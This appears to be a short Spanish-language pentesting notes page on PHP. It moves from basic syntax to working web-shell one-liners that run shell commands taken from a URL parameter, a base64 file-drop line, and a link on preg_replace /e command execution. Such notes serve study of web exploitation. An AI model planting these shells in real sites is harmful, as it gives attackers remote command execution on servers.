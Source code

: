 ------------

```php
# Ejecutar un "console.log" que se va a interpretar y mostrar en la web
echo "Esto es un texto que se va a interpretar";
# Declaración de variable
$nombre = 'Dobliuw'; 
# Obtener por query un valor bajo el nombre "cmd"
$_GET['cmd'];
$_REQUEST['cmd'];
# Usar etiquetas pre formateadas para unir (.) un comando ejecutado a nivel de sistema (shell_exec) de una query que obtenemos bajo el nombre "cmd"
# Las etiquetas pre formateadas son para que el output no se vea todo en la misma linea
echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
# Formas alternas de obtener por query un valor a la par que ejutarlo
<?=`$_GET[0]`?>
# Crear un archivo con contenido dentro
file_put_contents('file.name', base64_decode('{content.base64}')
```

# Vulnerabilidades

- ## preg_replace() con /e. [Vuln](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4)

